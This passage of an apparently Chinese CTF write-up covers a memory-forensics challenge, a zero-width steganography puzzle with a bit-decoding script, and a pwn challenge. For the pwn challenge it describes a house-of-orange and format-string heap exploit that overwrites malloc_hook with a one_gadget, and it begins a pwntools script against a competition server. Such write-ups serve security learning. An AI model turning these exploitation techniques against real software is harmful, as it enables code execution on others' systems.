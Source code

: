 给了一个内存。可以从中获取到hint是一个OneClick.exe。可以直接利用vol dump下来。之后我们开始逆向这个东西，发现他是以dot形式写了一个文件进入一个目录。我们利用虚拟机正常执行即可得到。然后我们可以发现他的word里利用010editor和正常word相比多出了一些东西。考虑可能是宏？但是一般宏会有一些特殊的opcode以及定义，考虑单纯是加密的文本，利用xortool一把锁。发现xor密钥是chr(45)得到flag

### <a class="reference-link" name="%E9%B8%A3%E9%9B%8F%E6%81%8B"></a>鸣雏恋

题目比较简单，直接利用zip打开发现里面隐藏的文件还有一个key.txt.<br>
当时利用phpstorm打开发现了奇怪的字符。利用零宽度隐写解密得到key。<br>
解密压缩包10w+张图片只有2种考虑转01 ，后续有base解密图片一把梭

```
import os
import tqdm
import base64
result=''
for i in range(0,129488):
    filename="`{``}`.png".format(str(i))
    if os.path.getsize(filename)==262:
        result+='0'
    else:
        result+='1'
from Crypto.Util.number import *
result=long_to_bytes(int(result,2))
while(1):
    try:
        result=base64.b64decode(result)
    except:
        print(result)
```



## Pwn

### <a class="reference-link" name="note"></a>note

先多申请几个chunk，格式化字符串改小top chunk,再申请，利用house of orange造出unsorted bin，再申请一个chunk利用最后一字节固定泄露基址。<br>
然后格式化字符串修改`malloc_hook`为`realloc+12`，修改`realloc_hook`为one_gadget，调整栈桢打one_gadget。

```
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
#r = process('./note')
r = remote('47.104.70.90',25315)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(size, con):
    r.sendlineafter('choice: ', str(1))
    r.sendlineafter('size: ', str(size))
    r.sendlineafter('content: ', con)

def say(addr):
    r.sendlineafter('choice: ', str(2))
    r.sendlineafter('say ? ', addr)


def show():
    r.sendlineafter('choice: ', str(3))

for i in range(14):
    add(0x100,"aaa")
add(0x40, "aaa")
r.recvuntil('0x')
addr = int(r.recv(12), 16)
print hex(addr)
```